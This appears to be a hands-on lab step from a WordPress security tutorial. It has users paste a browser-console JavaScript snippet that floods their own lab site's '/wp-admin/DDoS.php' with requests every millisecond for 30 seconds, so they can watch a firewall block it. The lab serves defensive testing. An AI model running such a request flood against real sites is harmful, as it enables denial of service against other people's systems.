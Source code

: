 ## **Enforce the DDoS to test the check the traffic control of the firewall**
---

### **Step 1:** 

Access your own WordPress website in Google Chrome using the link:
`https://[[HOST_SUBDOMAIN]]-8000-[[KATACODA_HOST]].environments.katacoda.com `{{copy}}

<br></br>

### **Step 2:** 
Right click and click `inspect` button to open the inspect of the Google 

![Image](./assets/Inspect.png)

<br></br>

### **Step 3:** 
click the Console button to access the console:

![Image](./assets/Console.png)

<br></br>

### **Step 4:** 
Copy the following command and paste it in the console and click enter:


```sh
function imgflood() { 
  let URI = '/wp-admin/DDoS.php?'
  let pic = new Image()
  let rand = Math.floor(Math.random() * 1000)
  pic.src = window.location.origin+URI+rand+'=val'
}

let DDoSTimer = setInterval(imgflood, 1); //Run it every 1 ms

setTimeout(() => clearInterval(DDoSTimer), 30000); //Stop running in 30 sec
```{{copy}}

![Image](./assets/ConsoleAddCommand.png)

<br></br>

### **Step 4:** 
Refresh the page after the DDoS command run and you can the Firewall block the DDoS attack which sends more than 1000 request successfully:

![Image](./assets/Block.png)